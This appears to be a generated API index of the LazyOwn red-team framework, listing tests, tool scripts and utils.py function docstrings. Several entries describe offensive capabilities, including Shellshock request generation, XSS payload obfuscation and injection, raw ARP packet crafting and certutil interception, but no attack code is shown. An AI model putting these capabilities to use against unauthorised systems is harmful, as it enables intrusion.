**File Doc:** *tests/test_wizard_binary_check.py  Tests for the wizard binary-readiness check added to ``cli.wizard``.  The check is the only step that touches the operator's environment without explicit consent, so the contract under test is:  - ``check_binaries`` performs presence detection only; it never spawns a subprocess. - Each :class:`BinarySpec` honours :data:`_BINARY_NAME_RE` so the report cannot leak shell metacharacters into the rendered table. - The default ``_REQUIRED_BINARIES`` table stays in sync with the install hints required by the LazyOwn kill chain (recon, web, smb, ad, cred, exploit, c2). - ``run`` always populates ``WizardResult.binaries`` regardless of whether the operator changed any payload values.*

**Classes:**
- `TestBinarySpecRegistry` (line 32) `class TestBinarySpecRegistry`
- `TestBinaryNameRegex` (line 58) `class TestBinaryNameRegex`
- `TestCheckBinariesContract` (line 92) `class TestCheckBinariesContract`
- `TestGroupByCategory` (line 143) `class TestGroupByCategory`
- `TestRunIntegratesBinaryCheck` (line 156) `class TestRunIntegratesBinaryCheck`
- `TestPublicSurface` (line 199) `class TestPublicSurface`

**Functions:**
- `_fail` (line 127) `def _fail()`
- `fake_check` (line 160) `def fake_check()`
- `fake_check` (line 179) `def fake_check()`

**Methods:**
- `test_default_registry_is_not_empty` (line 33) `def test_default_registry_is_not_empty(self)`
- `test_every_spec_has_required_fields` (line 36) `def test_every_spec_has_required_fields(self)`
- `test_every_name_matches_safety_regex` (line 44) `def test_every_name_matches_safety_regex(self)`
- `test_no_duplicate_binary_names` (line 48) `def test_no_duplicate_binary_names(self)`
- `test_kill_chain_categories_covered` (line 52) `def test_kill_chain_categories_covered(self)`
- `test_accepts_known_safe_names` (line 72) `def test_accepts_known_safe_names(self, name)`
- `test_rejects_unsafe_names` (line 88) `def test_rejects_unsafe_names(self, name)`
- `test_returns_one_status_per_spec` (line 93) `def test_returns_one_status_per_spec(self)`
- `test_marks_missing_when_which_returns_none` (line 103) `def test_marks_missing_when_which_returns_none(self)`
- `test_marks_present_when_which_returns_path` (line 109) `def test_marks_present_when_which_returns_path(self)`
- `test_skips_specs_with_unsafe_names` (line 115) `def test_skips_specs_with_unsafe_names(self)`
- `test_check_does_not_invoke_subprocess` (line 122) `def test_check_does_not_invoke_subprocess(self, monkeypatch)`
- `test_default_specs_used_when_omitted` (line 138) `def test_default_specs_used_when_omitted(self)`
- `test_groups_preserve_order` (line 144) `def test_groups_preserve_order(self)`
- `test_run_populates_binaries_when_nothing_changes` (line 157) `def test_run_populates_binaries_when_nothing_changes(self, monkeypatch)`
- `test_run_populates_binaries_after_updates` (line 176) `def test_run_populates_binaries_after_updates(self, monkeypatch)`
- `test_check_binaries_in_dunder_all` (line 200) `def test_check_binaries_in_dunder_all(self)`

#### `test_wizard_llm.py`
**Path:** `tests/test_wizard_llm.py`
**File Doc:** *Contract tests for the wizard LLM provider setup step.  Covers provider answer parsing, secret masking, the interactive ``_ask_llm`` update flow (with scripted prompts), and the provider-aware readiness summary. No real I/O or network is exercised.*

**Classes:**
- `TestNormalizeProviderAnswer` (line 23) `class TestNormalizeProviderAnswer`
- `TestMaskSecret` (line 45) `class TestMaskSecret`
- `TestAskLlm` (line 59) `class TestAskLlm`
- `TestReadinessLlm` (line 121) `class TestReadinessLlm`

**Functions:**
- `_scripted_prompt` (line 14) `def _scripted_prompt(answers)`
- `_fake` (line 17) `def _fake(message)`
- `_fake` (line 92) `def _fake(message)`
- `_fake` (line 109) `def _fake(message)`

**Methods:**
- `test_blank_returns_none` (line 24) `def test_blank_returns_none(self)`
- `test_name_case_insensitive` (line 28) `def test_name_case_insensitive(self)`
- `test_number_selects_backend` (line 32) `def test_number_selects_backend(self)`
- `test_out_of_range_number_returns_none` (line 37) `def test_out_of_range_number_returns_none(self)`
- `test_unknown_name_returns_none` (line 41) `def test_unknown_name_returns_none(self)`
- `test_empty_returns_not_set` (line 46) `def test_empty_returns_not_set(self)`
- `test_long_value_masked_with_tail` (line 50) `def test_long_value_masked_with_tail(self)`
- `test_short_value_never_shown_clear` (line 53) `def test_short_value_never_shown_clear(self)`
- `test_blank_answers_keep_everything` (line 60) `def test_blank_answers_keep_everything(self, monkeypatch)`
- `test_provider_change_by_name` (line 65) `def test_provider_change_by_name(self, monkeypatch)`
- `test_provider_change_by_number` (line 70) `def test_provider_change_by_number(self, monkeypatch)`
- `test_invalid_provider_keeps_current` (line 76) `def test_invalid_provider_keeps_current(self, monkeypatch)`
- `test_model_override_stored_in_provider_slot` (line 80) `def test_model_override_stored_in_provider_slot(self, monkeypatch)`
- `test_ollama_skips_key_prompt` (line 89) `def test_ollama_skips_key_prompt(self, monkeypatch)`
- `test_key_kept_when_blank` (line 102) `def test_key_kept_when_blank(self, monkeypatch)`
- `test_existing_key_prompt_shows_mask` (line 106) `def test_existing_key_prompt_shows_mask(self, monkeypatch)`
- `_row` (line 122) `def _row(self, params, label)`
- `test_cloud_with_key_ok` (line 126) `def test_cloud_with_key_ok(self)`
- `test_cloud_without_key_missing` (line 131) `def test_cloud_without_key_missing(self)`
- `test_ollama_keyless_ok` (line 136) `def test_ollama_keyless_ok(self)`
- `test_invalid_backend_missing_with_fix_hint` (line 141) `def test_invalid_backend_missing_with_fix_hint(self)`
- `test_model_shown_in_value` (line 146) `def test_model_shown_in_value(self)`
- `test_sensitive_values_masked` (line 150) `def test_sensitive_values_masked(self)`

#### `test_world_model_extended.py`
**Path:** `tests/test_world_model_extended.py`
**File Doc:** *Tests for extended WorldModel methods: set_os_hint, get_host, get_hosts_summary.*

**Classes:**
- `TestSetOsHint` (line 22) `class TestSetOsHint`
- `TestGetHost` (line 43) `class TestGetHost`
- `TestGetHostsSummary` (line 61) `class TestGetHostsSummary`
- `TestAdvanceHostEdgeCases` (line 73) `class TestAdvanceHostEdgeCases`
- `TestGetPhaseAfterStateChanges` (line 90) `class TestGetPhaseAfterStateChanges`

**Functions:**
- `world_model` (line 14) `def world_model()`

**Methods:**
- `test_set_os_hint_on_new_host` (line 23) `def test_set_os_hint_on_new_host(self, world_model)`
- `test_set_os_hint_on_existing_host` (line 29) `def test_set_os_hint_on_existing_host(self, world_model)`
- `test_set_os_hint_empty_string_is_stored` (line 36) `def test_set_os_hint_empty_string_is_stored(self, world_model)`
- `test_get_host_returns_none_for_unknown` (line 44) `def test_get_host_returns_none_for_unknown(self, world_model)`
- `test_get_host_returns_entry_for_known` (line 47) `def test_get_host_returns_entry_for_known(self, world_model)`
- `test_get_host_is_thread_safe` (line 53) `def test_get_host_is_thread_safe(self, world_model)`
- `test_empty_summary` (line 62) `def test_empty_summary(self, world_model)`
- `test_populated_summary` (line 65) `def test_populated_summary(self, world_model)`
- `test_advance_host_skips_on_same_state` (line 74) `def test_advance_host_skips_on_same_state(self, world_model)`
- `test_advance_host_skips_on_lower_state` (line 79) `def test_advance_host_skips_on_lower_state(self, world_model)`
- `test_advance_host_to_owned_is_allowed_from_exploited` (line 84) `def test_advance_host_to_owned_is_allowed_from_exploited(self, world_model)`
- `test_phase_derived_from_host_state` (line 91) `def test_phase_derived_from_host_state(self, world_model)`
- `test_phase_post_exploitation_on_owned` (line 95) `def test_phase_post_exploitation_on_owned(self, world_model)`
- `test_phase_complete_when_all_owned` (line 100) `def test_phase_complete_when_all_owned(self, world_model)`
- `test_phase_recon_when_no_hosts` (line 105) `def test_phase_recon_when_no_hosts(self, world_model)`

#### `test_xss_sanitization.py`
**Path:** `tests/test_xss_sanitization.py`
**File Doc:** *Untrusted data rendered into the DOM must be neutralized.  SDD contract: beacon output, scan hostnames, AI text and collab events reach ``innerHTML`` sinks. Every such sink must pass through ``DOMPurify.sanitize`` (vendored lib, the index.html precedent) or the ``esc()`` entity-encoder for pure-text slots. Raw interpolations of response/label/operator data are regressions.*

**Classes:**
- `TestXssSinks` (line 22) `class TestXssSinks`

**Functions:**
- `_src` (line 18) `def _src(name)`

**Methods:**
- `test_collab_events_escaped` (line 23) `def test_collab_events_escaped(self)`
- `test_yaml_view_loads_purify` (line 28) `def test_yaml_view_loads_purify(self)`
- `test_yaml_view_chatbot_sanitized` (line 32) `def test_yaml_view_chatbot_sanitized(self)`
- `test_new_campaign_chunks_sanitized` (line 37) `def test_new_campaign_chunks_sanitized(self)`
- `test_surface_labels_escaped` (line 42) `def test_surface_labels_escaped(self)`
- `test_index_lazyos_response_sanitized` (line 47) `def test_index_lazyos_response_sanitized(self)`

#### `contract_check.py`
**Path:** `tools/contract_check.py`
**File Doc:** *Contract conformance checker for single-file LAZY port modules.  Usage: python3 /tmp/opencode/contract_check.py modules/intercept.py [files...]  Checks: docstrings on public classes and functions, no absolute operator paths, presence of a Config class, no emoji bytes.*

**Functions:**
- `check_file` (line 19) `def check_file(path)` - *Validate one module and return human readable violations.*
- `main` (line 46) `def main(argv)` - *Check each file argument and report violations.*

#### `extract_cluster.py`
**Path:** `tools/extract_cluster.py`
**File Doc:** *Extract a named cluster of do_* methods from a CommandSet module.  Usage: python3 tools/extract_cluster.py <source.py> <target.py> <TargetClass> <phase> <category> <title> [--extra-imports "line1;line2"] <do_a> [do_b ...]  Copies each method including decorators, verbatim, into a new module defining a pending ``PendingCommandSet`` subclass. The emitted module mirrors the ``*_migrated.py`` runtime contract: a bottom-of-file injector copies public ``utils`` names into module globals (bare-name references inside migrated methods resolve through it, since PEP 562 ``__getattr__`` does not fire for function-global lookups), plus a ``__getattr__`` fallback for attribute-style access.  Follow the dormancy protocol after generating: verify with a parity test, delete the originals from the source module, then flip the base class to ``LazyOwnCommandSet``.*

**Functions:**
- `fragment_name` (line 29) `def fragment_name(fragment)` - *Return the function name defined by an extracted source fragment.

Args:
    fragment: Raw source text of one decorated method.

Returns:
    The ``def`` name declared by the fragment.*
- `collect_methods` (line 41) `def collect_methods(source_text, wanted)` - *Collect verbatim source of wanted methods in class-definition order.

Args:
    source_text: Full source of the origin module.
    wanted: Method names to extract.

Returns:
    Raw source fragments, decorators included.*
- `build_module` (line 66) `def build_module(target_class, phase, category, title, methods, extra_imports)` - *Render the new pending CommandSet module source.

Args:
    target_class: Name of the generated ``CommandSet`` subclass.
    phase: Kill-chain phase slug for the ``phase`` attribute.
    category: cmd2 help category label.
    title: Short human description used in the docstring.
    methods: Verbatim method fragments in final order.
    extra_imports: Additional import lines (for underscore-aliased
        names the ``utils`` injector cannot provide).

Returns:
    Complete module source text.*
- `main` (line 141) `def main()` - *Extract the requested cluster and write the target module.*

#### `gen_demo_gifs.py`
**Path:** `tools/gen_demo_gifs.py`
**File Doc:** *Generate LazyOwn demo GIFs without external services.*

**Functions:**
- `font` (line 14) `def font(size)` - *Resolve a monospace font with stdlib fallback.*
- `render` (line 22) `def render(lines, path, hold)` - *Render terminal line-by-line frames.*
- `main` (line 70) `def main()` - *Render the three core GIFs.*

#### `gen_demo_gifs_extra.py`
**Path:** `tools/gen_demo_gifs_extra.py`
**File Doc:** *Additional LazyOwn demo GIFs. Every command verified against source.*

**Functions:**
- `main` (line 49) `def main()` - *Render the four extended GIFs.*

#### `utils.py`
**Path:** `utils.py`
**File Doc:** *utils.py  Author: Gris Iscomeback Email: grisiscomeback[at]gmail[dot]com Creation date: 09/06/2024 License: GPL v3  Description: This file contains the logic for all functions used in the LazyOwnShell class.  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝*

**Classes:**
- `MyServer` (line 3099) `class MyServer(HTTPServer)` - *Custom HTTP server to handle incoming connections from certutil.*
- `SimpleHTTPRequestHandler` (line 3107) `class SimpleHTTPRequestHandler(BaseHTTPRequestHandler)` - *Custom HTTP request handler to intercept and decode GET requests from certutil.*
- `IP2ASN` (line 3137) `class IP2ASN`
- `VulnerabilityScanner` (line 3226) `class VulnerabilityScanner` - *Search the NVD for CVEs matching a service banner and persist results.

The scanner exposes three orthogonal capabilities:

1. :meth:`search_cves` queries the NVD keyword API and enriches each
   record with CVSS data scraped from cvedetails.com.
2. :meth:`persist` writes a JSON document under ``sessions/`` so
   downstream consumers (reactive_engine, FactStore, the report
   generator) can read structured findings without re-scanning.
3. :meth:`pretty_print` renders a human-readable summary in the
   operator shell.

Side-effects are bounded to the configured sessions directory.
Network access uses a configurable User-Agent so the framework
avoids hardcoded browser strings duplicated across modules.*

**Functions:**
- `needs_sudo` (line 323) `def needs_sudo(command)` - *Return True when any shell segment of the command runs sudo/doas.

Understands the wrapper forms the alias table uses (``sh sudo ...``)
and leading environment assignments, so a command that merely hides
sudo behind an alias expansion is still detected.

Args:
    command: Shell command line about to run.

Returns:
    True when the command would invoke sudo or doas.*
- `sudo_available` (line 347) `def sudo_available()` - *Return whether passwordless sudo works here, cached per process.

The unattended loop must not launch sudo commands that will die on a
missing terminal; one ``sudo -n true`` probe answers that for good.

Returns:
    True when ``sudo -n true`` succeeds.*
- `redact_secrets` (line 376) `def redact_secrets(text)` - *Mask API keys and credentials embedded in a command line.

Args:
    text: Command line or log message that may embed secrets.

Returns:
    The text with recognized secret values replaced by ``***`` so
    neither the operator console nor the event log stores them.*
- `parse_ip_mac` (line 396) `def parse_ip_mac(input_string)` - *Extracts IP and MAC addresses from a formatted input string using a regular expression.

The input string is expected to be in the format: 'IP: (192.168.1.222) MAC: ec:c3:02:b0:4c:96'.
The function uses a regular expression to match and extract the IP address and MAC address from the input.

Args:
    input_string (str): The formatted string containing the IP and MAC addresses.

Returns:
    tuple: A tuple containing the extracted IP address and MAC address. If the format is incorrect, returns (None, None).*
- `create_arp_packet` (line 418) `def create_arp_packet(src_mac, src_ip, dst_ip, dst_mac)` - *Constructs an ARP packet with the given source and destination IP and MAC addresses.

The function creates both Ethernet and ARP headers, combining them into a complete ARP packet.

Args:
    src_mac (str): Source MAC address in the format 'xx:xx:xx:xx:xx:xx'.
    src_ip (str): Source IP address in dotted decimal format (e.g., '192.168.1.1').
    dst_ip (str): Destination IP address in dotted decimal format (e.g., '192.168.1.2').
    dst_mac (str): Destination MAC address in the format 'xx:xx:xx:xx:xx:xx'.

Returns:
    bytes: The constructed ARP packet containing the Ethernet and ARP headers.*
- `send_packet` (line 453) `def send_packet(packet, iface)` - *Sends a raw ARP packet over the specified network interface.

The function creates a raw socket, binds it to the specified network interface, and sends the given packet.

Args:
    packet (bytes): The ARP packet to be sent.
    iface (str): The name of the network interface to use for sending the packet (e.g., 'eth0').

Raises:
    OSError: If an error occurs while creating the socket or sending the packet.*
- `load_version` (line 471) `def load_version()` - *Load the version number from the 'version.json' file.

This function attempts to open the 'version.json' file and load its contents.
If the file is found, it retrieves the version number from the JSON data.
If the version key does not exist, it returns a default version 'release/v0.0.14'.
If the file is not found, it also returns the default version.

The version.json is the single source of truth, updated by deploy.sh.

Returns:
- str: The version number from the file or the default version if the file is not found or the version key is missing.*
- `parse_bool` (line 497) `def parse_bool(value)` - *Interpret a configuration value as a boolean.

Accepts the canonical truthy strings used across payload.json and
form surfaces (``true``, ``1``, ``yes``, ``on``, case-insensitive).
Anything else evaluates to False so a missing or typo'd flag can
never silently enable a feature.

Args:
    value: The raw value; converted to string before inspection.

Returns:
    bool: True only for the canonical truthy strings.*
- `signal_handler` (line 515) `def signal_handler(sig, frame)` - *Handles signals such as Control + C and shows a message on how to exit.

This function is used to handle signals like Control + C (SIGINT) and prints
a warning message instructing the user on how to exit the program using the
commands 'exit', 'q', or 'qa'.

:param sig: The signal number.
:type sig: int
:param frame: The current stack frame.
:type frame: frame
:return: None*
- `activate_virtualenv` (line 540) `def activate_virtualenv(venv_path)` - *Activates a virtual environment and starts an interactive shell.

This function activates a virtual environment located at `venv_path` and then
launches an interactive bash shell with the virtual environment activated.

:param venv_path: The path to the virtual environment directory.
:type venv_path: str
:return: None*
- `parse_proc_net_file` (line 565) `def parse_proc_net_file(file_path)` - *Internal function to parse a /proc/net file and extract network ports.

This function reads a file specified by `file_path`, processes each line to
extract local addresses and ports, and converts them from hexadecimal to decimal.
The IP addresses are converted from hexadecimal format to standard dot-decimal
notation. The function returns a list of tuples, each containing an IP address
and a port number.

:param file_path: The path to the /proc/net file to be parsed.
:type file_path: str
:return: A list of tuples, each containing an IP address and a port number.
:rtype: list of tuple*
- `get_open_ports` (line 609) `def get_open_ports()` - *Internal function to get open TCP and UDP ports on the operating system.

This function uses the `parse_proc_net_file` function to extract open TCP and UDP
ports from the corresponding /proc/net files. It returns two lists: one for TCP
ports and one for UDP ports.

:return: A tuple containing two lists: the first list with open TCP ports and
        the second list with open UDP ports.
:rtype: tuple of (list of tuple, list of tuple)*
- `rotate_char` (line 628) `def rotate_char(c, shift)` - *Internal function to rotate characters for ROT cipher.

This function takes a character and a shift value, and rotates the character
by the specified shift amount. It only affects alphabetical characters, leaving
non-alphabetical characters unchanged.

:param c: The character to be rotated.
:type c: str
:param shift: The number of positions to shift the character.
:type shift: int
:return: The rotated character.
:rtype: str*
- `get_network_info` (line 650) `def get_network_info()` - *Retrieves network interface information with their associated IP addresses.

This function executes a shell command to gather network interface details,
parses the output to extract interface names and their corresponding IP addresses,
and returns this information in a dictionary format. The dictionary keys are
interface names, and the values are IP addresses.

:return: A dictionary where the keys are network interface names and the values
         are their associated IP addresses.
:rtype: dict*
- `get_git_info` (line 685) `def get_git_info()`
- `get_venv_info` (line 704) `def get_venv_info()`
- `_load_prompt_payload` (line 711) `def _load_prompt_payload()` - *Read ``payload.json`` defensively for the prompt renderer.

The prompt is rendered before the shell finishes wiring its parameters,
so direct attribute access on the shell would race. Reading the file
each time keeps the prompt in sync with operator-driven updates without
coupling the renderer to the shell's lifecycle.*
- `getprompt` (line 725) `def getprompt()` - *Render the configurable Neon Box prompt for the cmd2 shell.

Delegates to :func:`cli.banner_config.render_prompt` so the entire
segment registry, color palette, and toggling logic live in a single
self-contained module. Failure to import the renderer falls back to a
minimal single-line prompt so the shell stays usable.

Returns:
    str: The fully styled multi-line prompt string ready for cmd2.*
- `copy2clip` (line 743) `def copy2clip(text)` - *Copia el texto proporcionado al portapapeles usando xclip.

Args:
    text (str): El texto que se desea copiar al portapapeles.

Example:
    copy2clip("Hello, World!")*
- `clean_output` (line 763) `def clean_output(output)` - *Removes color escape sequences and other non-printable characters.*
- `teclado_usuario` (line 776) `def teclado_usuario(filename)` - *Processes a file to extract and display characters from specific write sequences.

Args:
    filename (str): El nombre del archivo a leer.

Raises:
    FileNotFoundError: Si el archivo no se encuentra.
    Exception: Para otros errores que puedan ocurrir.*
- `salida_strace` (line 812) `def salida_strace(filename)` - *Lee un archivo, extrae texto desde secuencias de escritura y muestra el contenido reconstruido.

Args:
    filename (str): El nombre del archivo a leer.

Raises:
    FileNotFoundError: Si el archivo no se encuentra.
    Exception: Para otros errores que puedan ocurrir.*
- `exploitalert` (line 848) `def exploitalert(content)` - *Process and display results from ExploitAlert.

This function checks if the provided content contains any results.
If results are present, it prints the title and link for each exploit found,
and appends the results to a predata list. If no results are found,
it prints an error message.

Parameters:
- content (list): A list of dictionaries containing exploit information.

Returns:
None
Thanks to Sicat 🐈
An excellent tool for CVE detection, I implemented only the keyword search as I had to change some libraries. Soon also for XML generated by nmap :) Total thanks to justakazh. https://github.com/justakazh/sicat/*
- `packetstormsecurity` (line 887) `def packetstormsecurity(content)` - *Process and display results from PacketStorm Security.

This function extracts exploit data from the provided content using regex.
If any results are found, it prints the title and link for each exploit,
and appends the results to a predata list. If no results are found,
it prints an error message.

Parameters:
- content (str): The HTML content from PacketStorm Security.

Returns:
None
Thanks to Sicat 🐈
An excellent tool for CVE detection, I implemented only the keyword search as I had to change some libraries. Soon also for XML generated by nmap :) Total thanks to justakazh. https://github.com/justakazh/sicat/*
- `nvddb` (line 925) `def nvddb(content)` - *Process and display results from the National Vulnerability Database.

This function checks if there are any vulnerabilities in the provided content.
If vulnerabilities are present, it prints the ID, description, and link
for each CVE found, and appends the results to a predata list.
If no results are found, it prints an error message.

Parameters:
- content (dict): A dictionary containing vulnerability data.

Returns:
None
Thanks to Sicat 🐈
An excellent tool for CVE detection, I implemented only the keyword search as I had to change some libraries. Soon also for XML generated by nmap :) Total thanks to justakazh. https://github.com/justakazh/sicat/*
- `find_ss` (line 971) `def find_ss(keyword)` - *Find CVEs in the National Vulnerability Database based on a keyword.

This function takes a keyword, formats it for the API request,
and sends a GET request to the NVD API. If the request is successful,
it returns the JSON response containing CVE data; otherwise,
it returns False.

Parameters:
- keyword (str): The keyword to search for in CVEs.

Returns:
- dict or bool: The JSON response containing CVE data or False on failure.
Thanks to Sicat 🐈
An excellent tool for CVE detection, I implemented only the keyword search as I had to change some libraries. Soon also for XML generated by nmap :) Total thanks to justakazh. https://github.com/justakazh/sicat/*
- `find_ea` (line 1033) `def find_ea(keyword)` - *Find exploits in ExploitAlert based on a keyword.

This function takes a keyword, formats it for the API request,
and sends a GET request to the ExploitAlert API. If the request is successful,
it returns the JSON response containing exploit data; otherwise,
it returns False.

Parameters:
- keyword (str): The keyword to search for exploits.

Returns:
- dict or bool: The JSON response containing exploit data or False on failure.
Thanks to Sicat 🐈
An excellent tool for CVE detection, I implemented only the keyword search as I had to change some libraries. Soon also for XML generated by nmap :) Total thanks to justakazh. https://github.com/justakazh/sicat/*
- `find_ps` (line 1083) `def find_ps(keyword)` - *Find exploits in PacketStorm Security based on a keyword.

This function takes a keyword, formats it for the search request,
and sends a GET request to the PacketStorm Security website.
If the request is successful, it returns the HTML response; otherwise,
it returns False.

Parameters:
- keyword (str): The keyword to search for exploits.

Returns:
- str or bool: The HTML response containing exploit data or False on failure.
Thanks to Sicat 🐈
An excellent tool for CVE detection, I implemented only the keyword search as I had to change some libraries. Soon also for XML generated by nmap :) Total thanks to justakazh. https://github.com/justakazh/sicat/*
- `run` (line 1115) `def run(command)` - *Executes a shell command using the subprocess module, capturing its output.

Parameters:
command (str): The command to execute.

Returns:
str: The output of the command if successful, or an error message if an exception occurs.

Exceptions:
- FileNotFoundError: Raised if the command is not found.
- subprocess.CalledProcessError: Raised if the command exits with a non-zero status.
- subprocess.TimeoutExpired: Raised if the command times out.
- Exception: Catches any other unexpected exceptions.

Example:
output = run("ls -la")
print(output)

Additional Notes:
The function attempts to execute the provided command, capturing its output.
It also handles common exceptions that may occur during command execution.
Secrets in the command line are redacted from console output.*
- `is_exist` (line 1174) `def is_exist(file)` - *Check if a file exists.

This function checks whether a given file exists on the filesystem. If the file
does not exist, it prints an error message and returns False. Otherwise, it returns True.

Arguments:
file (str): The path to the file that needs to be checked.

Returns:
bool: Returns True if the file exists, False otherwise.

Example:
>>> is_exist('/path/to/file.txt')
True
>>> is_exist('/non/existent/file.txt')
False

Notes:
This function uses os.path.isfile to determine the existence of the file.
Ensure that the provided path is correct and accessible.*
- `get_domain` (line 1203) `def get_domain(url)` - *Extracts the domain from a given URL.

Parameters:
url (str): The full URL from which to extract the domain.

Returns:
str: The extracted domain from the URL, or None if it cannot be extracted.*
- `generate_random_cve_id` (line 1220) `def generate_random_cve_id()` - *Generate a random CVE identifier in the form CVE-{year}-{code}.

Returns:
    str: A randomly generated CVE ID between 2020-2024 and 1000-9999.*
- `generate_certificates` (line 1232) `def generate_certificates()` - *Generates a certificate authority (CA), client certificate, and client key.

Returns:
    str: Paths to the generated CA certificate, client certificate, and client key.*
- `generate_emails` (line 1315) `def generate_emails(full_name, domain)` - *Generate email permutations based on the provided full name and domain.

This function takes a full name and domain as input, splits the full name into
components, and creates a list of potential email addresses.

Parameters:
full_name (str): The full name to base the email addresses on.
domain (str): The domain to use for the generated email addresses.

Internal Variables:
names (list): A list of the name components extracted from the full name.
first_name (str): The first name component.
last_name (str): The last name component.
first_initial (str): The first initial of the first name.
last_initial (str): The first initial of the last name.

Returns:
list: A list of generated email permutations.

Note:
- At least two parts of the name are required to generate valid email addresses.*
- `clean_url` (line 1375) `def clean_url(host)` - *Checks if the last character is a slash and removes it if so.*
- `random_string` (line 1382) `def random_string(length)` - *Generates a random alphanumeric string.*
- `generate_http_req` (line 1388) `def generate_http_req(host, port, uri, custom_header, cmd)` - *Generates an HTTP request with the Shellshock payload.*
- `format_openssh_key` (line 1412) `def format_openssh_key(raw_key)` - *Formats a raw OpenSSH private key string to the correct OpenSSH format.

This function takes a raw OpenSSH private key string, cleans it by removing any unnecessary
characters (such as newlines, spaces, and headers/footers), splits the key content into lines
of 64 characters, and then reassembles the key with the standard OpenSSH header and footer.
It ensures the key follows the correct OpenSSH format.

Parameters:
    raw_key (str): The raw OpenSSH private key string to format.

Returns:
    str: The formatted OpenSSH private key with proper headers, footers, and 64-character lines.*
- `format_rsa_key` (line 1444) `def format_rsa_key(raw_key)` - *Formats a raw RSA private key string to the correct PEM format.

This function takes a raw RSA private key string, cleans it by removing any unnecessary
characters (such as newlines, spaces, and headers/footers), splits the key content into lines
of 64 characters, and then reassembles the key with the standard PEM header and footer.
It ensures the key follows the correct RSA format.

Parameters:
    raw_key (str): The raw RSA private key string to format.

Returns:
    str: The formatted RSA private key with proper headers, footers, and 64-character lines.*
- `is_package_installed` (line 1475) `def is_package_installed(package_name)` - *Check if a Python package is installed.

:param package_name: Name of the package to check.
:returns: True if installed, False otherwise.*
- `extract` (line 1486) `def extract(string, extract_flag)` - *Extracts and processes specific hexadecimal sequences from a string based on a flag.

If the `extract_flag` is set to True, the function extracts all sequences of the form 'x[a-f0-9][a-f0-9]'
(where 'x' is followed by two hexadecimal digits), removes the 'x' from the extracted sequences,
and returns the processed string. If `extract_flag` is False, the function returns the original string.

Parameters:
    string (str): The input string from which hexadecimal sequences are to be extracted.
    extract_flag (bool): A flag indicating whether to perform the extraction (True) or not (False).

Returns:
    str: The processed string with the extracted hexadecimal sequences if `extract_flag` is True,
         or the original string if `extract_flag` is False.*
- `clean_html` (line 1510) `def clean_html(html_string)` - *Remove HTML tags from a string.

This function uses a regular expression to strip HTML tags and return plain text.

:param html_string: A string containing HTML content.
:returns: A cleaned string with HTML tags removed.*
- `get_credentials` (line 1537) `def get_credentials(file, ncred)` - *Searches for credential files with the pattern 'credentials*.txt' and allows the user to select one.

The function lists all matching files and prompts the user to select one. It then reads the selected file
and returns a list of tuples with the format (username, password) for each line in the file.

Parameters:
ncred (int, optional): If provided, automatically selects the credential file with the given number.

Returns:
list of tuples: A list containing tuples with (username, password) for each credential found in the file.
                If no files are found or an invalid selection is made, an empty list is returned.*
- `obfuscate_payload` (line 1593) `def obfuscate_payload(payload)` - *Obfuscates a payload string by converting its characters into hexadecimal format,
with additional comments for every third character.

For every character in the payload, the function converts it to its hexadecimal representation.
Every third character (after the first) is enclosed in a comment `/*hex_value*/`, while the rest
are prefixed with `\x`.

Parameters:
    payload (str): The input string that needs to be obfuscated.

Returns:
    str: The obfuscated string where characters are replaced by their hexadecimal representations,
         with every third character wrapped in a comment.*
- `read_payloads` (line 1618) `def read_payloads(file_path)` - *Reads a file containing payloads and returns a list of properly formatted strings.

This function opens a specified file, reads each line, and checks if the line starts with a
double quote. If it does not, it adds double quotes around the line. Each line is stripped
of leading and trailing whitespace before being added to the list.

Parameters:
    file_path (str): The path to the file containing payloads.

Returns:
    list: A list of strings, each representing a payload from the file, formatted with
          leading and trailing double quotes if necessary.*
- `inject_payloads` (line 1640) `def inject_payloads(urls, payload_url, request_timeout)` - *Sends HTTP requests to a list of URLs with injected payloads for testing XSS vulnerabilities.

This function reads payloads from a specified file and sends GET requests to the provided URLs,
injecting obfuscated payloads into the query parameters or form fields to test for cross-site
scripting (XSS) vulnerabilities. It handles both URLs with existing query parameters and those
without. If forms are found in the response, it submits them with the payloads as well.

Parameters:
    urls (list): A list of URLs to test for XSS vulnerabilities.
    payload_url (str): A placeholder string within the payloads that will be replaced with
                       the actual URL for testing.
    request_timeout (int, optional): The timeout for each request in seconds. Defaults to 15.

Returns:
    None: This function does not return any value but prints the status of each request and
          form submission to the console.

Raises:
    requests.RequestException: Raises an exception if any HTTP request fails, which is handled
                               by printing a warning message.*
- `prompt` (line 1740) `def prompt(label, default)` - *Return the prompt in the function do_xss*
- `add` (line 1748) `def add(str_part, delimiter, i)` - *Adds a delimiter between string parts if it's not the first part.

Parameters:
    str_part (str): The string part to add.
    delimiter (str): The delimiter to insert between parts.
    i (int): The index of the part.

Returns:
    str: The string part with delimiter if applicable.*
- `detect_delimiter` (line 1765) `def detect_delimiter(foo_bar)` - *Detects the delimiter used in the input string (e.g., "-", "_", ".").

Parameters:
    foo_bar (str): The input string.

Returns:
    str: The detected delimiter.*
- `transform` (line 1784) `def transform(parts, delimiter, casing)` - *Transforms a list of string parts based on the chosen casing style.

Parameters:
    parts (list): List of string parts.
    delimiter (str): Delimiter to use between parts.
    casing (str): Casing style ('l', 'u', 'c', 'p').

Returns:
    str: The transformed string.*
- `handle` (line 1814) `def handle(input_str)` - *Splits the input string into parts based on delimiters or mixed casing.

Parameters:
    input_str (str): The input string to split.

Returns:
    list: A list of string parts.*
- `get_users_dic` (line 1844) `def get_users_dic(txt)` - *List all .txt files in the 'sessions/' directory and prompt the user to select one by number.

:returns: The path of the selected .txt file.*
- `get_hash` (line 1879) `def get_hash(dir)` - *Searches for hash files with the pattern 'hash*.txt' and allows the user to select one.

The function lists all matching files and prompts the user to select one. It then reads the selected file
and returns the hash content as a single string, without any newline characters or extra formatting.

Returns:
str: The hash content from the selected file as a single string. If no files are found or an invalid
     selection is made, an empty string is returned.*
- `is_digit` (line 1920) `def is_digit(the_digit)` - *Check if the given character is a digit.

Args:
    the_digit (str): The character to check.

Returns:
